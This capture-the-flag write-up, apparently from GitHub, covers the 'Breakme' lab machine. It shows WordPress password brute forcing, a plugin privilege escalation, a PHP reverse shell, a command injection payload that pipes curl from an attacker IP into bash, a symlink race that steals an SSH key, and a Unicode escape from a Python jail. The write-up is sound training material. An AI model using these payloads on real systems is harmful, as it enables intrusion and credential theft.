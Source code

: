 # Breakme

### Break the system

Initial nmap scan only shows port 22 and 80 open. The webserver seems just an empty apache webserver, however, a gobuster directory enumeration shows other resources:<br />
![image](https://github.com/user-attachments/assets/1862c187-c3be-4bfc-91f8-f10a88751816)<br />
Movin around on the webserver, I found a login page at `/wordpress/wp-login`. If I try to login with `admin`, I get back a response that the password for that user is wrong. This means that the `admin` user actually exists:<br  />
![image](https://github.com/user-attachments/assets/e8d5dad4-61b2-4bba-ab34-094940f871d0)<br/>
I tried bruteforcing admin account with `wpscan --url http://10.10.75.11/wordpress/wp-login.php -U admin -P /usr/share/wordlists/rockyou.txt`, but it didn't work.
Next, the following command ` wpscan --url http://10.10.75.11/wordpress/ -e u,p,t` enumerates users, plugins and templates. This time wpscan found another user, bob: <br />
![image](https://github.com/user-attachments/assets/f0e43a3a-36df-478b-909e-cc0009e989f0)<br />
So now try bruteforce bob: `wpscan --url http://10.10.122.80/wordpress/wp-login.php -U bob -P /usr/share/wordlists/rockyou.txt`. <br />
![image](https://github.com/user-attachments/assets/1e20d13e-626c-495e-a5e1-dbe040bd3060)<br />
His credentials are `bob:soccer`. 
The previous wpscan showed that the website is using an older version of `WP data access`, which is 5.3.8. Searching online, I found [here](https://www.wordfence.com/blog/2023/04/privilege-escalation-vulnerability-patched-promptly-in-wp-data-access-wordpress-plugin/) that this version is vulnerable to privilege escalation from subscriber+ to administrator. There's no explicit POC, but the exploit works as follows: 
1) On bob's account, click on `Update Profile`, and intercept the request with Burp Suite
2) Add a parameter to the request: `wpda_role[]=administrator`
3) Forward the request and become admin!
![image](https://github.com/user-attachments/assets/7f6f9ea6-e2b3-447e-8ae7-4b05392e9664)<br />
Now, to upload a reverse shell, we need to upload it in the theme's code, which is found inside `Tools->Themes File Editor`, upload the php reverse shell(I used the [PentestMonkey](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php) one), open a netcat listener on the attackers machine and update the theme: <br />
![image](https://github.com/user-attachments/assets/e2598068-7ab7-4573-a0cb-ae4e2905ead2)<br />
Next, I [stabilized the shell](https://maxat-akbanov.com/how-to-stabilize-a-simple-reverse-shell-to-a-fully-interactive-terminal) so that i could maintain my mental integrity.<br />
Running linpaeas, it founds a set of credentials inside wordpress configuration file:<br />
![image](https://github.com/user-attachments/assets/f8e6b88d-9549-4d6b-bf3f-bd73830d8f1f)
So use the given credentials to log into the database `mysql -u econor -p`. In the database there are a couple of hashed passwords: <br />
![image](https://github.com/user-attachments/assets/a7d76b78-4539-4024-a637-343439d24388)<br />
We already know bob's password, let's try to crack the admin's password. The hash starts with `$P$`, this means that it is a `Phpass` hash format. I doesn't work, there must be something else. <br />
Linpeas also shows a local service at 127.0.0.1:9999. With `curl` I was able to see that it's a web service. In order to access the web page from the attacker's machine, we need to perform something called `port forwarding`:
1) In the target machine: run `socat TCP-LISTEN:8888,fork TCP:127.0.0.1:9999`
2) In the attacker machine: run `socat TCP4-LISTEN:9998,reuseaddr,fork TCP4:target_ip:8888`
So we are opening port 9998 on the attacker machine and redirecting everything coming in that port to target IP port 8888. Similarly, from the target machine, we redirect everything coming in port 8888 to localhost port 9999, thus accessing the web service. <br />
![image](https://github.com/user-attachments/assets/8d881702-0350-444b-85ed-06f9f0affb30)<br />
The "Check Target" function performs a ping command to the specified IP address. This is very likely a command injection exploit. Here's a list of special characters:<br />
`! @ # $ % ^ & * ( ) - _ = + \ | [ ] { } ; : / ? . >`. <br />
After hours of trying payloads, I found that this `|nc${IFS}10.11.85.53${IFS}5555` worked on the "check user" section. <br />
![image](https://github.com/user-attachments/assets/ef3b720f-e148-4c22-aa4d-23731faf2308)<br />
Now, to get a reverse shell, since we can't use `-`, what we can do is create a `rev.sh` file in our attacker's machine(can be found inside this folder). Next open a netcat listener on the attacker's machine, `nc -lnvp 6666`, and inject the curl command to get the rev.sh file and pipe it into bash. The final payload is this: `|curl${IFS}10.11.85.53/rev.sh|bash` :<br />
![image](https://github.com/user-attachments/assets/5efb5384-f0ed-4d03-ad29-ed0535c63592)<br />
Again, [stabilize the shell](https://maxat-akbanov.com/how-to-stabilize-a-simple-reverse-shell-to-a-fully-interactive-terminal). <br />
I'm now the user `john` and got the first flag. Running again linpeas on the system, there's a SUID file inside `/home/youcef`, called `readfile`. It seems to be working like a `cat` command. If I use it to try to read something on which I don't have permissions, this is what i get: <br />
![image](https://github.com/user-attachments/assets/14814808-a0c9-4b14-aa1a-7a428f809db1)<br />
Also, it doesn't seem to be vulnerable to buffer overflow because I tried running it with really large inputs, but it never goes into segmentation fault. So I decided to analyze it using IDA (I first had to transfer it on my local machine using netcat).<br />
![image](https://github.com/user-attachments/assets/ef559c13-0022-4f04-8b3f-9100b48fdb74)<br />
At the beginning of the main function, there are three checks. The first checks that the program only takes one input from the command line. The second checks that the file_name is valid, and the third checks that the user running the binary is actually john, with id=1002. Next:<br />
![image](https://github.com/user-attachments/assets/63b003a1-c324-4778-bfe2-ae85fefac356)<br />
Here the program uses the function `_strstr` to check if the filename contains the word "flag" and the word "id_rsa". Then it checks if it's a symlink with the `lstat` function, and if it can be accessed with the `_access` function. If any of these conditions are true, then it jumps to the following block:<br />
![image](https://github.com/user-attachments/assets/f13e1d7a-1bf0-4676-aea8-0448e42dc7c8)<br />
And the program stops. If we pass all the checks, then the program goes here: <br />
![image](https://github.com/user-attachments/assets/c69142c8-7751-49ce-aef6-aac01a94f04a)<br />
Here it's opening the file with the function `_open`, and if the the function fails, it will call `__assert_fail` and the program will stop. <br />
Instead, if the file is opened correctly, the program goes here: <br />
![image](https://github.com/user-attachments/assets/40be8666-5de7-407f-8b3a-4d4f171e9874)<br />
Here the program is calling the `_read` function every 1024 bytes. It then sets the file descriptor to 1 (sdtoutput) and calls `_write`, so that the user can read the file. It then checks if the number of written bytes is zero: if it is, then the program stops; if it isn't, then it will read the next 1024 bytes.  <br /><br />

I was stuck here for a long time and couldn't make progress. So I decided to look at an external writeup to see the solution and try to learn something from it. The solution was **race condition**. That's a first to me. <br />
Basically the idea is that since the outcome of the binary depends, among other things, on whether the file is a symlink or not, and since the checks are sequencial, I can try to change the state of the file **between the checks and the read**. From my understanding, the steps of this attack are the following:

    step 1: create a normal file (using the `touch` command). 
    step 2: run the binary in order to read the new file
    step 3: the binary checks that all the conditions are met, including that it is not a symlink
    step 4: in the timeframe right after the checks but right before the file read, make that file a symlink to `.ssh/id_rsa`
    step 5: the binary reads `.ssh/id_rsa`

Of course I don't have the control to stop the program and change the state of the file just as I please. The attack is called **race condition** because "whoever comes first wins", meaning that I have to run a script that makes the normal file and changes it to symlink, and at the same time I have to run the `readfile` binary, hoping that the events will happen in the order listed above. <br />
Of course there's a very low chance that it will happen. That's why the idea is to run the script and the `readfile` binary at the same time and multiple times, hoping that at some point the right conditions will happen and I win the race. 
The first command I need to run is:

    while true; do ln -sf /home/youcef/.ssh/id_rsa symlink; rm symlink; touch symlink; done &
This command creates an infinite loop that creates and destroys a file and makes it into a symlink, constantly changing the state of the target file for the `readfile` binary. <br />
The next command: 

    for i in {1..30}; do /home/youcef/readfile symlink; done
tries to read from the symlink 30 times. <br />
After executing these two commands, I got a bunch of errors, but I also got the `id_rsa` file, so I won the race! Now I copy it in my attacker's machine, I change the permissions with `chmod 600 id_rsa`. Before using it, we need to crack the passphrase. To do it, run `ssh2john id_rsa > id_rsa_hash` and then run `john --wordlist=/usr/share/wordlists/rockyou.txt id_rsa_hash`:<br />
![image](https://github.com/user-attachments/assets/64e2672d-90b6-4c35-8869-8ac360bcd8bb)<br />
Now we can log into youcef's account with `ssh youcef@ip_addr -i id_rsa` and prompt the passphrase and get the second flag. <br />
I now need to become root. If I run `sudo -l` I get the following sudo permission: <br />
![image](https://github.com/user-attachments/assets/b4a260cd-a772-4fab-aaff-611e5a185787)<br />
This is a python jail. After searching online for a bit, I found that the solution is in using `𝘣𝘳𝘦𝘢𝘬𝘱𝘰𝘪𝘯𝘵()`. <br />
A breakpoint in Python is a debugging tool introduced in Python 3.7 that allows developers to pause program execution and inspect its state interactively. The default implementation of breakpoint() launches the Python Debugger (`pdb`), and `pdb` accepts and executes Python input directly! This means that if I'm able to run the `breakpoint()` command, I could spawn a root shell or directly read the last flag. However the filter blocks the string `breakpoint()`, but it does not block `𝘣𝘳𝘦𝘢𝘬𝘱𝘰𝘪𝘯𝘵()`! This string is not composed of ASCII characters. Instead, it uses Unicode characters that look visually identical to the ASCII ones but are fundamentally different.<br />
Filters in this Python Jail were likely configured to block literal ASCII strings like breakpoint, but they failed to account for visually similar Unicode variants. Since Python treats Unicode identifiers as valid names, the Jail couldn't recognize or filter the Unicode version of breakpoint:<br />
![image](https://github.com/user-attachments/assets/e4c5988f-bc18-40e9-a7b9-fbdf56976c8f)<br /><br />

This room was really hard for me and I'm not going to lie, I cheated a little. But it's been really informative.

